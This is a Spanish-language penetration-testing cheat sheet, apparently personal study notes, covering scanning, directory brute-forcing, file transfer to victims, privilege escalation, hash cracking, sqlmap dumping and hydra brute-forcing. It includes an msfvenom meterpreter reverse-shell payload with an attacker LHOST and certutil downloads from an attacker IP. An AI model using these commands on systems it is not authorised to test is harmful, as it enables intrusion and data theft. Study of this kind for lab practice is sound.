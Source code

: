 ## Identificar puertos abeirtos
```sh
nmap -sS -p- --open -min-rate 5000 -n -vvv -Pn -oG allPorts
```
-oG se guarda en formato grepeable para poder extraer los puertos con extractports \
-sS escaneo sigiloso \
-p- escanea todos los puertos --open \
-min-rate 5000 Intenta enviar al menos 5000 paquetes por segundo \
-n No realiza resolución DNS \
-vvv Muestra resultados muy detallados \
-Pn Desactiva la detección de hosts

## Identificar versiones de los puertos abiertos
```sh
nmap -sV -sC -p<puertos separados por ,> -n -v -Pn -oA scan
```
-sV deteccion de versiones \
-sC ejecuta scripts por defecto \
-n No realiza resolución DNS \
-v muestra resultados detallados \
-Pn Desactiva la detección de hosts\

## Scripts con nmap
```sh
nmap --script "vuln and safe" -p
```
## Gobuster
```sh
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -x .txt,.php -t 100 | grep -v "301"
```
dir para directorio
-u para la url\
-w para pasarle el diccionario\
-x para agregar .txt a todos los datos del diccionario\
-t para los hilos\
| grep -v "301" para no mostrar los status

## Colocarse en escucha
```sh
nc -lvnp <puerto>
```

## Abrir un servidor para transferir archivos
```sh
python3 -m http.server <puerto>
```

## Escalacion de privilegios en Windows (Windows-Exploit-Suggester)
Revissar version   systeminfo\
En el windows se coloca el comando systeminfo y ese output se guarda en linux en un archivo llamado systeminfo.txt
```sh
python2 windows-exploit-suggester -u //descarga el archivo
python2 windows-exploit-suggester -d <archivo descargado> -i systeminfo.txt
```

privilegios whoami /priv\
SeImpersonatePrivilege        Impersonate a client after authentication Enabled >>> juicipotato privilege escalation (churrasco.exe para sistemas antiguos) \(https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)\
o printspoofer\
winpeas

## Transferir archivos de linux a windows
En linux abrir un servidor\
Windows:
```sh
certutil -urlcache -f http://<ip que esta enviando el archivo>:<puerto>/archivo.extension archivo.extension
```
Otra \
linux:
```sh
impacket-smbserver recurso $(pwd) -smb2support
```
windows:
```sh
copy \\<ip atacante>\recurso\archivo.extension archivo.extension
```

## Transferir archivos de linux a linux
Abrir servidor\
recibir:
```sh
wget http://<ip que esta enviando el archivo>:<puerto>/archivo.etension -O archivo.extension
```

## Escalar privilegios en linux
Permisos sudo: 
```sh
sudo -l
```
Permisos suid: 
```sh
find / -type f -perm -4000 -ls 2>/dev/null
```
listar tareas predefinidas : 
```sh
cat /etc/crontab
```
Linux versiones anteriores 
```sh
searchsploit dirty cow
```

## Pasar de hexadecimal a normal
Linux versiones anteriores 
```sh
echo "486f6c61206d756e646f" | xxd -r -p
```

## Pasar de base 64 a normal
```sh
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
```

## Decifrar hash
Saber el tipo de hash
```sh
hashid hash
```
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash -format=Raw-SHA256
```

## Reverseshell msfvenom
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=443 -f aspx -o shell2.aspx
```

## mejorar bash
```sh
script /dev/null -c bash
```
crtl + z
```sh
stty raw -echo; fg
```
```sh
reset xterm
```
```sh
export TERM=xterm
```
En la terminal del atacante para saber el tamaño de nano
```sh
stty size
```
En la terminal de la victima para ajustar el tamaño de nano
```sh
stty rows <rows> columns <columns>
```

##  Listar puertos ocultos
```sh
netstat -na -p tcp
```

## Sql map
Con burpsuite ver la peticion y descargar el archivo como request.txt
```sh
sqlmap -r request.txt --dbms=mysql --dump
```

## Listar smb
Ver recursos compartidos
```sh
smbclient -L ip
```
```sh
smbclient  //ip/recurso
```
Descargar archivo
```sh
get archivo
```
Subir archivo 
```sh
put archiv
```

## Hydra
```sh
hydra -l <usuario> -P <diccionario> <objetivo> <servicio> <opciones específicas del servicio>
```
-l <usuario>: Especifica un solo nombre de usuario.\
-L <archivo>: Especifica un archivo con una lista de usuarios.\
-p <contraseña>: Especifica una sola contraseña.\
-P <archivo>: Especifica un archivo con una lista de contraseñas.\
<objetivo>: La dirección IP o dominio del objetivo.\
<servicio>: El protocolo o servicio a atacar (por ejemplo: ssh, ftp, http-post-form, smb, etc.).\
<opciones específicas del servicio>: Dependiendo del servicio, puedes necesitar opciones adicionales.







